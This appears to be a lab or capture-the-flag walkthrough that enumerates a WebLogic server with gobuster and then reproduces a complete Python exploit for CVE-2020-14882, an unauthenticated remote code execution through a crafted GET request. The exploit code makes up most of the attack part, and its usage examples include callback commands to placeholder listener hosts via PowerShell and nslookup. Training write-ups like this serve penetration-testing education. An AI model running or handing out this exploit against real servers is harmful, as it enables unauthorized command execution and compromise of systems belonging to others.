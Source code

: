 Then:

```
gobuster dir -u http://10.129.201.102:7001/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .asp .aspx
```


Results: WebLogic


**Enumerate the application for vulnerabilities. Gain remote code execution and submit the contents of the flag.txt file on the administrator desktop.**

After gooogling a little we find that it is vulnerable to: https://www.exploit-db.com/exploits/48971

This is the exploit:

```python
#!/usr/bin/python3

# Exploit Title: Oracle WebLogic Server 10.3.6.0.0 / 12.1.3.0.0 / 12.2.1.3.0 / 12.2.1.4.0 / 14.1.1.0.0  - Unauthenticated RCE via GET request
# Exploit Author: Nguyen Jang
# CVE: CVE-2020-14882
# Vendor Homepage: https://www.oracle.com/middleware/technologies/weblogic.html
# Software Link: https://www.oracle.com/technetwork/middleware/downloads/index.html

# More Info: https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

import requests
import sys

from urllib3.exceptions import InsecureRequestWarning

if len(sys.argv) != 3:
    print("[+] WebLogic Unauthenticated RCE via GET request")
    print("[+] Usage : python3 exploit.py http(s)://target:7001 command")
    print("[+] Example1 : python3 exploit.py http(s)://target:7001 \"nslookup your_Domain\"")
    print("[+] Example2 : python3 exploit.py http(s)://target:7001 \"powershell.exe -c Invoke-WebRequest -Uri http://your_listener\"")
    exit()

target = sys.argv[1]
command = sys.argv[2]

request = requests.session()
headers = {'Content-type': 'application/x-www-form-urlencoded; charset=utf-8'}

print("[+] Sending GET Request ....")

GET_Request = request.get(target + "/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLable=&handle=com.tangosol.coherence.mvel2.sh.ShellSession(\"java.lang.Runtime.getRuntime().exec('" + command + "');\");", verify=False, headers=headers)

print("[+] Done !!")
```

